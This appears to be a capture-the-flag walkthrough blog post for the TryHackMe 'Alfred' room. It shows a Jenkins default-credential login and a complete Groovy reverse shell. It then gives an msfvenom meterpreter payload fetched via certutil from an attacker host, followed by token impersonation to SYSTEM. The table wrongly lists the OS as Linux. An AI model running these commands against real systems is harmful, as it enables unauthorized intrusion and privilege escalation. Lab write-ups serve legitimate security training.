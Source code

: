 ```yaml
---
layout: post
title: "Alfred"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [rustscan, Jenkins, Groovy-reverse-shell, metasploit, impersonation, SeImpersonatePrivilege]
image: ../../assets/img/posts/alfred.png 

---
```


## Description

Exploit Jenkins to gain an initital shell, then escalate your privileges by exploiting Windows authentication tokens.

|**Room**|[Alfred](https://tryhackme.com/room/alfred)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[tryhackme](https://tryhackme.com/p/tryhackme)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.183.220 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187151685-896c90bc-46c9-4b47-9c30-fef742efdf7f.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p80,3389,8080 10.10.183.220 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/187151745-bd3042aa-feea-4faf-b6d4-896ac0665b5c.png)

Result scan shows that port 80 is running Microsoft IIS server, port 3389 is running some unknown service and port 8080 is running webserver with Jetty service installed. 

Let's begin enumeration with port 80 by visiting http://10.10.183.220,

![image](https://user-images.githubusercontent.com/67465230/187151845-7dd42e0f-0215-4e7a-b5d8-ff094cd1eae4.png)

we landed on the webpage where we can see the picture of Bruce Wayne and below it, we can see the email id associated with the last name of the Bruce Wayne. 

But after looking around, checking its source code, I couldn't found anything so I decided to enumerate port 8080.

Let's visit http://10.10.183.220:8080,

![image](https://user-images.githubusercontent.com/67465230/187152278-42a8ecbc-24c4-40e1-9cdb-7c135412b050.png)

we found a Jenkins login page. 

From here, we can try to brute force user credentials to gain access to the panel but since this box is pretty straight forward, I tried admin:admin credentials and was successful in getting into admin panel,

![image](https://user-images.githubusercontent.com/67465230/187152365-15d225ee-683d-4411-a7ce-b135549665ec.png)

so we got into admin panel and here we can see the dashboard where we can add new item, see the build history, manage jenkins, etc. 

After enumerating the panel, I counter a tab name **Manage Jenkins** where we can get into **Script Console**, having the functionality where we can run the Groovy script (or *commands maybe*),

![image](https://user-images.githubusercontent.com/67465230/187156058-6067beb3-0385-4d41-aaa0-f13a77563382.png)

So we can copy the [Groovy Reverse Shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) and paste it into the console, 

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Let's start the netcat listener using `nc -nvlp 4444` and hit the run button on the console and we'll get a reverse shell,

![image](https://user-images.githubusercontent.com/67465230/187156100-17d5ef93-606e-4a8b-8c0e-bab1c873c4e0.png)

Now, that we know that we're bruce user, we can navigate to Desktop directory and get the flag,

![image](https://user-images.githubusercontent.com/67465230/187156150-b7ae58d2-2756-44fb-806b-839dabf4d947.png)

Now, that we got the flag, we can now generate a malicious payload using `msfvenom` and catch the connection with metasploit handler. So let's generate a payload,

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.3.171 LPORT=5555 -f exe -o cat.exe
```

![image](https://user-images.githubusercontent.com/67465230/187156192-44f1d131-8d6f-4c58-a6ec-7b4726afcd55.png)

our payload gets generated. 

Now, start the server using `python3 -m http.server` and now we can transfer the payload using `certutil` command to target machine, 

```bash
certutil -urlcache -f http://10.9.3.171:8000/cat.exe cat.exe
```

![image](https://user-images.githubusercontent.com/67465230/187156653-887806c6-dd23-4a28-8270-2ac6bce5ae5f.png)

our payload is transferred successfully.

Now, we can setup metasploit multi/handler to catch reverse shell,

```bash
msfconsole -q
use exploit/multi/handler
set LHOST tun0
```

![image](https://user-images.githubusercontent.com/67465230/187156749-34584351-a774-480a-8810-91de28a51481.png)

Let's run the listener using `run` command and then fire up the exploit using cat.exe and we'll get the meterpreter session opened for us,

![image](https://user-images.githubusercontent.com/67465230/187156822-b6297adc-6f8f-4112-9fd3-65b67b225d64.png)

Now that we have meterpreter shell, we have much more functionality as meterpreter shells are tend to be more stable and supports many in-built commands. 

Now, let's check the current privileges we have using `getprivs` command,

![image](https://user-images.githubusercontent.com/67465230/187156887-aada2ff3-9d71-4ab3-bdd2-dcd46ef1a8f6.png)

we got the list of privileges but here we can see the **SeImpersonatePrivilege** privilege which stands out the most important to us as by abusing this, we can impersonate use as SYSTEM user.

In this challenge, we'll be looking at `incognito` command, *which allows us to impersonate user tokens when successfully compromising a system*. So let's load the incognito mode in meterpreter using, 

```bash
load incognito
```

![image](https://user-images.githubusercontent.com/67465230/187156949-6b62ec19-4abf-4249-ad87-b361c53635e1.png)

Now, we can list all the available tokens of the group,

```bash
list_tokens -g
```

![image](https://user-images.githubusercontent.com/67465230/187157001-d7d28dc0-76e1-433e-ab73-bd58ce259d4b.png)

we can see that there are many tokens available but BUILTIN\Administrators token is useful so let's use it.

Impersonating with BUILTIN\Administrators token,

```bash
impersonate_token "BUILTIN\Administrators"
```

![image](https://user-images.githubusercontent.com/67465230/187157040-fefc4a54-f0fc-4807-a14a-a2574b4aa4db.png)

we have successfully impersonated as NT AUTHORITY\SYSTEM user. 

Now if try to dump hashes using `hashdump` command, hashes won't get dump because even if we have become NT AUTHORITY\SYSTEM user, we still not have permissions to dump the hashes. 

So we can do one thing is that we can migrate to the process which is running as NT AUTHORITY\SYSTEM user. So listing processes using `ps` command, 

![image](https://user-images.githubusercontent.com/67465230/187157096-c3a551f8-d61c-458f-adef-7c6142282295.png)

we can see the lsass.exe service which is running as NT AUTHORITY\SYSTEM user which has PID equals 676.

So we can try to migrate our current process to PID 676, 

```bash
migrate 676
```

![image](https://user-images.githubusercontent.com/67465230/187157147-12dcea54-4697-4f13-b3ba-b980273efbc8.png)

with this command, we have successfully migrated to other process and have retain the privileges as NT AUTHORITY\SYSTEM user.

Now, let's drop into the `shell` and issuing `whoami` command and we got to know that we are NT AUTHORITY\SYSTEM user,

![image](https://user-images.githubusercontent.com/67465230/187157198-92008b03-221b-4ecd-99e0-ee761fb9aefa.png)

Navigating to **C:\Windows\System32\Config** and we can see the root.txt file, 

![image](https://user-images.githubusercontent.com/67465230/187157267-bb5bf501-ef94-49e5-88df-16d04d5cae33.png)

